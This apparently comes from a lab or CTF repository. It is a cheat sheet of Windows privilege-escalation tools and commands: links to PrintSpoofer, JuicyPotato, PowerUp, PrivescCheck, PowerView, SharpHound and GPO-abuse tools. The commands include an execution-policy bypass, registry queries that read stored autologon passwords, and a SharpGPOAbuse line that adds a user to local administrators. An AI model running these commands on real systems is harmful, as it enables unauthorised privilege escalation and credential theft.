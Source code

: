 # Window Privesc "Source Links"

## PrintSpoofer.exe
- Link
```
https://github.com/itm4n/PrintSpoofer
```

## JuicyPotato
- Link
```
https://github.com/ohpe/juicy-potato
```

## Powerup
- Link
```
https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1

powershell -ep bypass
.\PowerUp.ps1
Invoke-PrivescAudit
```

## PrivescCheck
- Link
```
https://github.com/itm4n/PrivescCheck/blob/master/PrivescCheck.ps1
```

## Powerview
- Link
```
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
```

## SharpHound
- Link
```
https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.ps1
```

## PowerGPOAbuse
- Link
```
https://github.com/rootSySdk/PowerGPOAbuse
https://raw.githubusercontent.com/rootSySdk/PowerGPOAbuse/master/PowerGPOAbuse.ps1
```
- Usage
```
.\SharpGPOAbuse.exe --AddComputerTask --TaskName 'noraj' --Author 'vulnnet\administrator' --Command "powershell.exe /c" --Arguments "net localgroup administrators enterprise-security /add" --GPOName "security-pol-vn"
```

## SharpGPOAbuse
- Link
```
wget https://github.com/byronkg/SharpGPOAbuse/raw/main/SharpGPOAbuse-master/SharpGPOAbuse.exe
```
____________________________________________________________________________________________________________________________________________________________________________________________________________________________

# Window Privesc
## PowerUp
- Check Default Username and Password from Registry
```
reg query "HKLM\Software\Microsoft\Windows Nt\CurrentVersion\Winlogon" /v DefaultUserName
reg query "HKLM\Software\Microsoft\Windows Nt\CurrentVersion\Winlogon" /v DefaultPassword
reg query "HKLM\Software\Microsoft\Windows Nt\CurrentVersion\Winlogon" /v AutoAdminLogon
```

- Check the service that current user can modify
```
Get-ModifiableService
```

- Check the unquoted service name
```
Get-ServiceUnquoted
```

## PrivescCheck
- Load ps1 script and run 
```
powershell -ep bypass -c ". .\PrivescCheck.ps1;Invoke-PrivescCheck "
```

- Check window services for user escalating
```
Invoke-ServiceAudit
```

- Check outdated and potentially vulnerable software
```
Invoke-AuditInstalledPrograms
```

